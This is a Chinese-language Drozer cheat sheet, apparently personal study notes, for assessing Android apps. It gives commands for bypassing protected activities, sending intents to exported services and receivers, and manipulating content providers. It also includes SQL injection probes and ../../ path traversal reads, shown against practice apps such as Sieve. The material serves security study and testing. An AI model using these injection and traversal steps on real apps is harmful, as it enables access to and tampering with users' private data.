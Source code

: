 ```yaml
---
title: Drozer Cheat Sheet
tags: [Android, Drozer]

category: "Tools/Others/Android Related/Drozer"
---
```


# Drozer Cheat Sheet
<!-- more -->

## Basic Console
基本上最常用的command就是
```bash!
dz> run <drozer module> <optional object> # 啟動內建的module做到依稀操作
dz> help <drozer module> # 查看該module的說明以及參數設定
```

```bash!
dz> run app.package.list #列出所有已安裝的app package
dz> run app.package.list -f <key word> #列出特定的app package 
dz> run app.package.info -a <app package name> # 列出該app的基本訊息
dz> run app.package.manifest <app package name e.g. jakhar.aseem.diva> # 查看AndroidManifest.xml的資訊
dz> run app.package.attacksurface <app package name e.g. com.mwr.example.sieve> # 查看該app有什麼攻擊面
Attack Surface:
    3 activities exported # 也許可以啟動一個activity並且bypass某種應該阻止我啟動他的權限
    0 broadcast receivers exported
    2 content providers exported # 也許可以fetch private data或是利用某些漏洞 e.g. sqli or path traversal
    2 services exported
        is debuggable
```
接著根據得到的資訊看要用以下哪一種的攻擊模式

### activities exported
如果確定該app的AndroidManifest.xml有設定==android:export="true"==，就代表有機會bypass他的權限，根據[^csdn-androidmanifest-xml]這個地方的風險如下:
> android:exported
> 這個屬性用於指示該服務是否能夠被其他應用程序組件call或跟它interact。如果設置為true，則callable或interactable，否則不能。設置為false時，只有同一個應用程序的組件或帶有相同用戶ID的應用程序才能啟動或綁定該服務。
1. 列出export activities有哪些
    ```bash!
    dz> run app.activity.info -a <app package name>
    ```
2. 啟動activity
    ```bash!
    dz> run app.activity.start --component <app package name> <activity name fetched by above command>
    ```
    此時會看到手機啟動Sieve App，並且原本應該是需要password才能access的activity，居然可以直接bypass
    ![Screenshot_20240603-163856](https://hackmd.io/_uploads/rkrr-ZsNA.png =200x)

### services exported
和上面的問題差不多，只是差在被export的是services
1. 列出export services有哪些
    ```bash!
    dz> run app.service.info -a <app package nam>
    ```
2. 與該services互動
    這邊就不是像上一個activity一樣是啟動，而是要和他互動，因為service本來就是一個運行在背景的服務，他沒有畫面，無法和一般使用者互動，會需要的module如下
    ```
    app.service.send            Send a Message to a service, and display the reply
    app.service.start           Start Service
    app.service.stop            Stop Service
    ```
    如果去看`app.service.send`該如何使用，可以直接看範例就好，簡單來說我們可以丟給service一連串東西，就看逆向之後該service怎麼寫，如果參數不夠，可以用`--extra`去包後面的參數
    ```bash
        dz> run app.service.send com.example.srv com.example.srv.Service --msg 1 2 3 --extra float value 0.1324 --extra string test value
        Got a reply from com.example.srv/com.example.srv.Service:
          what: 1
          arg1: 2
          arg2: 3
        Data:
          value (float) : 0.1324
          test (string) : value
    ```

### broadcast receivers exported
根據[^pixnet-android-broadcast]的說明，broadcast屬於process之間的通訊，根據教學:
> 發現這些廣播接收器後，您應該檢查它們的代碼。特別注意**onReceive**函數，因為它將處理接收到的消息。

1. 檢測broadcast receiver
    ```bash
    dz> run app.broadcast.info # 檢測所有broadcast receiver
    dz> run app.broadcast.info -a <app package name> # 檢查特定app內的broadcast receiver
    ```
2. 和前面的exported service一樣，我們要和他們互動，但至於要傳送什麼也是要透過逆向來後來判斷
    ```bash
    app.broadcast.info          Get information about broadcast receivers
    app.broadcast.send          Send broadcast using an intent
    app.broadcast.sniff         Register a broadcast receiver that can sniff particular intents
    ```
    根據help的提示如下，可以知道該如何使用send→Sends an intent to broadcast receivers.
    ```bash
    dz> run app.broadcast.send --action <action name fetch by AndroidManifest.xml> --component <path to the function name> <function name>
    ```
    ```bash
    Examples:
    Attempt to send the BOOT_COMPLETED broadcast message:
        dz> run app.broadcast.send --action android.intent.action.BOOT_COMPLETED
        java.lang.SecurityException: Permission Denial: not allowed to send broadcast
    android.intent.action.BOOT_COMPLETED from pid=955, uid=10044
    ```

### content providers exported
1. 檢查Content Provider的exported狀況
    ```bash
    dz> run app.provider.info -a <app package name>
    
    # Drozer可以猜測並嘗試多個URI，這樣我們才知道確切的URI長怎樣
    dz> run scanner.provider.finduris -a <app package name>
    ```
2. 利用逆向判斷他是基於database還是基於file system的Content Provider
    * 基於DataBase
        ```bash
        #1. 查詢內容
        dz> run app.provider.query <URI> [--projection [columns ...]] [--selection conditions] [--selection-args [arg ...]] [--order by_column] [--vertical]
        
        #2. 插入內容
        dz> run app.provider.insert <URI> [--string key value] [--double key value] [--float key value] [--integer key value] [--long key value] [--short key value] [--boolean key value]
        
        #3. 更新內容
        #總而言之就是要選擇更新的地方，和要更新的內容為何
        #selection參數有點像是一般常見的"WHERE <conditions>"
        dz> run app.provider.update <URI> --selection <指定是哪一個欄位, format: "column name=?"> --selection-args <用來取代前面selection的問號，可以不只一個> [--string key value] [--double key value] [--float key value] [--integer key value] [--long key value] [--short key value] [--boolean key value]
        
        #4. 刪除內容
        #幾乎和前面一樣，也就是要指定刪除的位置
        dz> run app.provider.delete <URI> --selection <指定是哪一個欄位, format: "column name=?"> --selection-args <用來取代前面selection的問號，可以不只一個> 
        
        #5. SQLi
        #這邊是利用query來達到sqli，利用--selection和--projection這兩個參數，
        #projection這個參數，原文的解釋: 
        #the columns to SELECT from the database, as in "SELECT <projection> FROM ..."
        dz> run app.provider.query <URI> --selection "'"
        dz> run app.provider.query <URI> --projection "*
        
        #6. Drozer自動發現SQLi
        dz> run scanner.provider.injection -a <app package name>
        dz> run scanner.provider.sqltables -a <app package name>
        ```
    * 基於File System
        ```bash
        #1. 讀取文件
        dz> run app.provider.read <URI+path>
        
        #2. Path Traversal
        dz> run app.provider.read <URI+../../../../+path>
        
        #3. Drozer自動發現Path Traversal
        dz> run scanner.provider.traversal -a <app package name>
        
        #4. Download File to Local
        run app.provider.download <URI+path> hosts
        ```

### is debuggable
可以直接用drozer找，或者是直接看AndroidManifest.xml中有無提到==debuggable="true"==
```bash
# 找到所有debuggable的app
dz> run app.package.debuggable
```